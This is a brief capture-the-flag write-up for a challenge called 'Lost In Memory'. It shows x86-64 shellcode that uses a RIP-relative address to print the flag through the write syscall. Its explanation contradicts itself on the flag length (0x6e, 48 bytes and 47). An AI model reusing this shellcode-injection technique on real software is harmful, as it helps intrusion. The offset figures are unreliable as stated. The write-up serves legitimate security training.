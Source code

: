 # Lost In Memory

```c
lea rax, [rip]
sub rax, 0x6e
mov rdi, 1
mov rsi, rax
mov rdx, 47
mov rax, 1
syscall
```

- RAX: 1 (SYS_WRITE)
- RDI: 1 (fd = STDOUT)
- RSI: address of the flag
- RDX: 47 (length of the flag in bytes)

The idea is to use the address of the shellcode as the address of the string to print. The RIP contains the next instruction address. The flag is placed before the shellcode, so the address of the shellcode is the address of the flag minus 0x6e. Where 0x6e is the length of the flag.

The flag is 48 (0x30) bytes long. The stub is 55 (0x37) bytes long. The first instruction of the shellcode is 7 bytes long. Then 0x30 + 0x37 + 0x7 = 0x6e, that we have to subtract from the RIP.
We are using the first instruction of the shellcode because the RIP points to the next instruction.

The complete exploit is in [script.py](script.py).

